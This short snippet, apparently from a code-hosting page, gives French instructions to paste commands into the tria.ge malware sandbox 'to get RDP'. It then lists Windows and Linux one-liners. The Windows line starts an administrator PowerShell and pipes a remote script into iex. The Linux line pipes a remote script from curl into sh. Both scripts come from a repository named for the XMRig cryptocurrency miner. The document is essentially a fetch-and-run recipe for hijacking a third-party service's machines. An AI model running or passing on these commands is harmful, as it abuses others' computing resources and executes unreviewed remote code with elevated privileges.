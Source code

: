 Nb : a coler dans tria.ge
pour avoir du rdp


for windows

start-process PowerShell -verb runas
irm https://raw.githubusercontent.com/Lachine1/xmrig-scripts/main/windows.ps1 | iex


for linux


curl -fsSL https://raw.githubusercontent.com/Lachine1/xmrig-scripts/main/linux.sh | sh
